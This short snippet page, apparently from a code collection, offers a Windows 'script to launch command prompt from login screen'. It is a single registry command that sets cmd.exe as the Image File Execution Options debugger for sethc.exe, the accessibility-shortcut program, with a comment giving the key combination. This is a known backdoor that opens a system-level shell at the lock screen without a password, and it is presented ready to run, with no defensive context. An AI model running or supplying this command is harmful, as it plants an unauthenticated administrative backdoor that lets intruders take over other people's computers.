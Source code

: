 ## Windows script to launch command prompt from login screen

```sh
REM alt + shift + print_screen
cmd.exe /c "reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f"
```
